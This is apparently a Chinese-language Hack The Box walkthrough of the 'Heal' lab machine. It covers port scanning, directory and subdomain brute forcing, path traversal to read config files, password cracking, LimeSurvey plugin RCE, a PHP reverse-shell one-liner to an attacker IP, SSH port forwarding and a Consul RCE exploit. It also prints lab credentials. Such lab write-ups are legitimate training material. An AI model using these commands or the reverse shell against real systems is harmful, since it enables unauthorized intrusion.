# Linux渗透实战之HTB-Heal-先知社区

> **来源**: https://xz.aliyun.com/news/16310  
> **文章ID**: 16310

---

  
靶机链接：<https://app.hackthebox.com/machines/Heal>

## 前情提要

涉及知识点如下：

```
目录遍历读取敏感信息
目录&子域名爆破
LimeSurvey__RCE
ssh端口转发
Hashicorp Consul v1.0 - Remote Command Execution (RCE)
```

## 信息收集

### 端口探测

```
nmap -sT --min-rate 10000 -p- 10.10.11.46
.............
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

详细端口扫描

```
nmap -sTVC -O -p22,80 10.10.11.46
.................
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Heal
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 端口利用

  
一个登录界面，有注册功能，注册一下看看

  
一个简历生成器，我们可以尝试着生成一个简历，同时使用bp进行抓包

  
在放包的过程中我们发现了filename参数，来试试能否利用目录遍历来读取敏感文件

  
利用成功，并且我们知道了两个用户ron和ralph，我们可以利用这个去读网站的配置文件，但不知道是什么框架，来一段常用套路进行信息收集：目录爆破&子域名爆破

#### 目录爆破

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -u http://heal.htb -t 50
```

发现survey路由

  
点击参与调查发现一个子域名<http://take-survey.heal.htb>

  
在index.php发现一个用户名ralph  
再次进行目录爆破,在这里我们使用rust编写的feroxbuster来进行目录爆破，因为在爆破的过程中看到了很多503，为了便于直观看结果，使用-C参数过滤一下503

```
feroxbuster --url http://take-survey.heal.htb/index.php/ -C 503
```

  
<http://take-survey.heal.htb/index.php/admin/authentication/sa/login>  
发现一个登录界面，但我们手里目前只有两个用户名，并没有密码。


#### 子域名爆破

```
wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://heal.htb -H "HOST:FUZZ.heal.htb"
```

  
同样的，为了避免数据洪流，我们使用--hw参数过滤了word大小为12的数据  
有收获，其实在上面的抓包放包过程中我们也可以看到这个子域名  
访问<http://api.heal.htb看看>

  
知道了一些版本信息，也知道了什么框架，上网搜一下对应的配置文件，利用目录遍历进行读取

  
配置文件在config/database.yml，我们来尝试读一下

  
发现数据库文件，这是令我们感兴趣的，因为里面极有可能有一些凭据

  
读到ralph的密码，利用john进行破解

  
获得一组凭据ralph:147258369

## 建立立足点

靶机开放了22端口，手里有两个用户和一个密码，来一个碰撞试试

```
crackmapexec ssh 10.10.11.46 -u user -p pass
```

  
无法登上ssh，但想到之前的<http://take-survey.heal.htb/index.php/admin/authentication/sa/login>  
是一个登录界面，尝试利用ralph:147258369登录(可以把语言调成中文便于理解)

  
上网搜一下，找找可利用

  
找到了两个github库，都是利用插件来进行rce  
<https://github.com/p0dalirius/LimeSurvey-webshell-plugin>  
<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>  
就拿第一个举例吧

### LimeSurvey利用插件RCE

思路：上传zip，然后访问后门文件，action=exec&cmd=id执行命令，这里有个console.py方便我们执行命令，但如果用的不是默认的路径及命名，需要修改console.py文件  
小tips：上传完成后记得激活，并且靶机会定时清除后门文件，执行操作时记得时间，如果操作没正确执行可能就是被清除了

  
反弹个shell出来，便于操作

```
php -r '$sock=fsockopen("10.10.16.41",8888);shell_exec("sh <&3 >&3 2>&3");'
```

  
一般www-data用户的权限比较低，常用思路就是去寻找敏感文件如数据库文件，网站配置文件之类的  
找找配置文件

```
find /var/www/ -name '*config*' 2>/dev/null
在/var/www/limesurvey/application/config/config.php发现密码AdmiDi0_pA$$w0rd
```



### 再次crackmapexec

ssh服务爆破试试

  
成功获得ssh服务登录凭据



## 权限提升

```
ss -tuln
```

  
发现了很多端口...........ssh端口转发吧看看都有啥，一个一个看太浪费时间，发现端口有点连续，看一下3000，8500，8600

```
ssh ron@heal.htb -L 3000:127.0.0.1:3000
跟http://heal.htb同一个界面
ssh ron@heal.htb -L 8600:127.0.0.1:8600
ssh ron@heal.htb -L 8500:127.0.0.1:8500
```

  
重点在8500端口，突破点应该是在这里

  
右键查看源码，在源码中发现了版本信息

  
借助kali自带的searchspoit搜一下利用

  
下载到本地，里面有python脚本，直接打!



  
但我们并不知道acl\_token，随便给个值试试


## 总结

总体来说这台靶机难度不大，在于信息收集及对凭据的敏感性，所用到的操作也都是常用套路，htb官方定级为Medium，个人感觉是Medium偏下一点
